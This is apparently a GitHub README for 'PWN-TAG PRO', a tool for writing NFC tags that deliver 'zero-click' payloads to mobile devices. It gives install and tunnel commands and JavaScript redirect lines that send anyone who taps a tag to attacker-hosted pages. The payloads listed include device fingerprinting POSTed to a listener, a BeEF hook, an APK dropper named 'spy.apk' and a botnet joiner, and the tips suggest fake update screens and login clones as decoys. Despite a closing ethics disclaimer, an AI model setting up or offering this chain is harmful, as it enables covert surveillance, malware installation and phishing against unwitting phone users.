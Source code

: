 # PWN-TAG PRO  
_Use with paid ngrok accounts — full zero-click payload delivery_

_"tag to pwn"_ — NFC payload delivery system for social engineering, red team ops, and mobile testing.

PWN-TAG lets you write NFC tags that trigger live payloads on mobile devices — from fingerprinting to botnet enrollment. Built for ethical hackers, educators, defenders, and curious minds.

---

##  What You Need

*  NFC tag stickers (~$10 for 25):  
  https://a.co/d/gl2XRV8

*  NFC writer app (free):  
  https://apps.apple.com/app/id1252962749

*  Debian-based Linux system
  
*  [ngrok account](https://ngrok.com/) with paid plan (static subdomain required)

---

##  Branches

| Branch       | Purpose                                                                 |
|--------------|-------------------------------------------------------------------------|
| `main`       | Free-tier version using randomized ngrok URLs (tap + browser confirm)   |
| `ngrok-pro`  | Paid ngrok version with reserved domains → **zero-click payloads**      |

---

##  Installation (Clone + Setup)

```bash
git clone https://github.com/ekomsSavior/PWN-TAG.git
cd PWN-TAG
````

Switch to the pro branch:

```bash
git checkout ngrok-pro
```

Install Python dependencies:

```bash
sudo apt update
sudo apt install python3 python3-pip -y
pip3 install flask --break-system-packages
```

---

##  ngrok Setup

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz
tar -xvzf ngrok-v3-stable-linux-amd64.tgz
sudo mv ngrok /usr/local/bin/
```

Authenticate your account:

```bash
ngrok config add-authtoken <YOUR_NGROK_AUTH_TOKEN>
```

Reserve a static domain like `pwn-tag.ngrok.app` inside your ngrok dashboard.

---

##  Usage (2 Terminal Workflow)

### Terminal 1 — Start Flask Payload + Listener Server

```bash
python3 flask_server.py
```

 This now:

* Serves all payloads (HTML, APK, etc.)
* Handles `/testlog`, `/camlog`, `/cliplog`, etc.
* Runs on port `8080`

---

### Terminal 2 — Start ngrok Tunnel

```bash
ngrok http --domain=pwn-tag.ngrok.app 8080
```

 You’re now live at:

```
https://pwn-tag.ngrok.app
```

---

##  Write Your NFC Tag

In your NFC writer app:

1. Tap **Write**
2. Add Record → **URL**
3. Paste:

```
https://pwn-tag.ngrok.app/payloads/test_shell.html
```

4. Tap to write

Now when someone taps the tag:

* `test_shell.html` loads
* Device fingerprint is POSTed to your listener
* Redirect triggers to any final payload

---

##  Payload Options (Examples)

| Payload               | Path                       | Description                                                |
| --------------------- | -------------------------- | ---------------------------------------------------------- |
| **Test Shell**        | `payloads/test_shell.html` | Logs fingerprint, then redirects to real payload           |
| **Full Beacon Shell** | `payloads/beef_shell.html` | Loads BEEF hook (must run BEEF server separately)          |
| **APK Dropper**       | `payloads/spy.apk`         | Sends APK file directly to Android users                   |
| **Rogue Joiner**      | `payloads/bot_joiner.html` | Simulates Rogue botnet join behavior — JS beacon or loader |

---

##  Swapping Payloads

Edit this in `payloads/test_shell.html`:

```javascript
window.location.href = "https://pwn-tag.ngrok.app/payloads/YOUR_PAYLOAD_HERE";
```

Example:

```javascript
window.location.href = "https://pwn-tag.ngrok.app/payloads/spy.apk";
```

 You do **not** need to reprogram your NFC tag if you’re using a static domain.

---

##  Pro Tips

*  Make multiple redirectors: `redirect_to_apk.html`, `redirect_to_bot.html`, etc.
*  Replace `index.html` with a 403 decoy, fake update screen, or login clone
*  Add geolocation or IP info: use `fetch('https://ipinfo.io/json')`
*  Chain with `clipboard.js`, `camlog`, or `result.js` for layered payloads
*  With static ngrok domains, your tags stay valid forever — just update server logic

---

## 🛡 Ethical Usage

This tool is intended for **educational use, red team simulation, and defense research only.**
Do not deploy it against real targets without consent. You are responsible for your actions.

---

##  Extras Coming Soon

*  `setup_repo.sh` for auto-deployment
*  `payloads/README.md` to explain demo files
*  BEEF hook setup help
*  QR payload variants for phones without NFC

---

Tag smart.
Pwn hard.
— ek0ms
